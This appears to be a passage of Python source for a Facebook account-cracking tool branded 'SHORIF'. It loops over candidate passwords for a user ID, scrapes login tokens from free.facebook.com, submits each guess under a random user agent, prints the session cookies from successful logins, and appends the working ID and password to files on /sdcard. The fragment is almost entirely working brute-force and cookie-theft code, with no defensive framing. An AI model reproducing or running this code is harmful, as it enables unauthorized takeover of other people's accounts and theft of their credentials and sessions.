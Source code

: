     global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'POST',
            "scheme": 'https',
            "accept": 'application/x-www-form-urlencoded',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=0.9',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://free.facebook.com/',
            "sec-ch-ua": '"Chromium";v="107", "Not=A?Brand";v="24"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'empty',
            "sec-fetch-mode": 'cors',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[151:166]
                print('    \033[38;5;45m[SHORIF-OK💉] '+uid+' | '+ps+'\033[38;5;46m'+asha(uid)+'\n    \033[38;5;196m[Usar Agent🤖]\033[38;5;195m'+pro+' \033[1;91m ')
                print(f'    \033[38;5;46m[COOKIE🍪] \033[38;5;192m'+coki)
                cek_apk(session,coki)
                open('/sdcard/SHORIF-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[141:156]
                #print('\r\r\33[1;31m [SHORIF-CP💔] ' +uid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/SHORIF-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r \33[1;93m[%sSHORIF\033[0m/%s\33[1;93m]\033[1;97mOK-\033[38;5;46m%s'%(H,loop,len(oks))),